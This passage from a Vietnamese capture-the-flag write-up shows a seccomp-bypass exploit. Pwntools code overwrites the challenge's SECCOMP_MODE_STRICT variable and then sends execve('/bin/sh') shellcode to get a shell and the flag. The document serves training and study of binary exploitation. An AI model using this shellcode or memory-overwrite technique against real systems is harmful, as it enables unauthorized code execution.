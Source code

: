 **nhưng trường hợp 2 thì hoàn toàn có thể vì ta có thể thay đổi giá trị chỉ biến mode đang chứa hằng số SECCOMP_MODE_STRICT** thành 1 số khác bất kì thông lần nhập 3 đúng ko nào ??

### Tóm tắt ý tướng:

```tìm mode addr -> thay đổi mode -> nhập shellcode -> chạy shellcode```

## Khai thác

- **Stage 1: thay đổi mode**

giờ ta tìm địa chỉ của mode và giá trị nó đang chứa có phải bằng 1 ko

![image](https://github.com/gookoosss/CTF/assets/128712571/51f670d3-9865-4738-a748-19715732e5c1)


đúng như ta dự đoán luôn, giờ chọn option 3 rồi thay đổi 1 giá trị bất kì thôi

```python 
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'addr: ', str(mode))
p.sendlineafter(b'value: ', b'5')
```

- **Stage 2: nhập shell và chạy shell**

chọn option 1 và nhập shell rồi chạy thôi:

```python 

shellcode = asm(
    '''
    mov rax , 29400045130965551
    push rax

    mov rax, 0x3b
    xor rsi, rsi
    xor rdx, rdx
    mov rdi, rsp
    syscall
    ''', arch='amd64')

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'shellcode: ', shellcode)
p.sendlineafter(b'> ', b'2')

```

sau đó thì ta lấy được shell và có flag

![image](https://github.com/gookoosss/CTF/assets/128712571/85f9905a-520b-4e97-a657-e11cde0316f7)



## script
